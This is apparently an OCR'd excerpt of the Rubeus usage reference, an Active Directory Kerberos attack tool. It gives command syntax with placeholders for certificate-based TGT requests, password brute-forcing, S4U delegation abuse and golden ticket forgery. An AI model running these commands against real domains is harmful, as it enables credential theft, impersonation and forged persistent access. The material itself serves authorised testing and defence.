         Retrieve a TGT using a PCKS12 certificate, start a /netonly process, and to apply the ticket to the new process/logon session:
            Rubeus.exe asktgt /user:USER /certificate:C:\temp\leaked.pfx </password:STOREPASSWORD> /createnetonly:C:\Windows\System32\cmd.exe [/getcredentials] [/servicekey:KRBTGTKEY] [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap]

        Retrieve a TGT using a certificate from the users keystore (Smartcard) specifying certificate thumbprint or subject, start a /netonly process, and to apply the ticket to the new process/logon session:
            Rubeus.exe asktgt /user:USER /certificate:f063e6f4798af085946be6cd9d82ba3999c7ebac /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap]

        Retrieve a TGT suitable for changing an account with an expired password using the changepw command
            Rubeus.exe asktgt /user:USER </password:PASSWORD /changepw [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

       Retrieve a service ticket for one or more SPNs, optionally saving or applying the ticket:
            Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/enctype:DES|RC4|AES128|AES256] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/enterprise] [/opsec] </tgs:BASE64 | /tgs:FILE.KIRBI> [/targetdomain] [/u2u] [/targetuser] [/servicekey:PASSWORDHASH] [/asrepkey:ASREPKEY]

        Renew a TGT, optionally applying the ticket, saving it, or auto-renewing the ticket up to its renew-till limit:
            Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/autorenew] [/nowrap]

        Perform a Kerberos-based password bruteforcing attack:
            Rubeus.exe brute </password:PASSWORD | /passwords:PASSWORDS_FILE> [/user:USER | /users:USERS_FILE] [/domain:DOMAIN] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/ou:ORGANIZATION_UNIT] [/dc:DOMAIN_CONTROLLER] [/outfile:RESULT_PASSWORD_FILE] [/noticket] [/verbose] [/nowrap]


     Constrained delegation abuse:

        Perform S4U constrained delegation abuse:
            Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self]
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/bronzebit]

        Perform S4U constrained delegation abuse across domains:
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomain:DOMAIN.LOCAL /targetdc:DC.DOMAIN.LOCAL [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/self]


     Ticket Forgery:

        Forge a golden ticket using LDAP to gather the relevent information:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a golden ticket using LDAP to gather the relevent information but explicitly overriding some values:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/printcmd] [outfile:FILENAME] [/ptt]
